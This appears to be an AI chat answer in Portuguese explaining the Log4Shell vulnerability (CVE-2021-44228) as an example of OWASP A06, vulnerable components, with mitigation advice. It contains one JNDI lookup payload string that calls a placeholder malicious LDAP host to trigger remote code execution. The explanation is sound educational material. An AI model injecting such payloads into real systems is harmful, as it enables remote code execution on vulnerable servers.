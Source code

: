 
Se quiser, posso te ajudar a configurar um `composer audit` ou integrar o `Dependabot` no GitHub do seu projeto Laravel. Deseja isso?

## Q3 - Como foi o Log4j (aaque no Java recente)

Excelente pergunta! O ataque **Log4Shell**, que afetou a biblioteca **Log4j** no Java, é um **exemplo clássico e catastrófico da vulnerabilidade A06 do OWASP Top 10: uso de componentes desatualizados e vulneráveis**.

---

## 🚨 O que foi o ataque Log4Shell?

+ **Data:** Revelado publicamente em **dezembro de 2021**.
+ **Biblioteca afetada:** `log4j-core` (versões 2.0 a 2.14.1).
+ **CVE:** [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228).
+ **Gravidade:** 10/10 (máximo na escala CVSS).

### 🔥 O problema:

A biblioteca **Log4j**, amplamente usada para logging em aplicações Java, permitia **execução remota de código (RCE)** com algo tão simples quanto:

```java
logger.info("${jndi:ldap://malicious.site/a}");
```

> Essa string poderia vir de **qualquer input externo** (headers HTTP, campos de formulário, etc.) e seria interpretada automaticamente pela biblioteca Log4j, que fazia uma requisição a um servidor externo e executava código remotamente.

---

## 🧩 Relação com a A06:2021 (Componentes Vulneráveis)

+ A vulnerabilidade estava em uma **dependência popular, não atualizada**.
+ Muitas aplicações Java usavam versões antigas do Log4j **sem saber**.
+ **Mesmo quem nunca usou diretamente o Log4j** foi afetado se qualquer biblioteca interna o utilizasse.

🔗 Ou seja:

> **Quem não monitorava ou auditava suas dependências**, caiu direto na armadilha da A06. A falha não estava no código da aplicação, mas na **cadeia de dependências**.

---

## 🛡️ Como evitar esse tipo de problema?

### Para Java/Log4j:

+ Atualizar para Log4j **2.16+** ou usar bibliotecas alternativas seguras como `logback`.
+ Desabilitar substituições JNDI se não precisar.
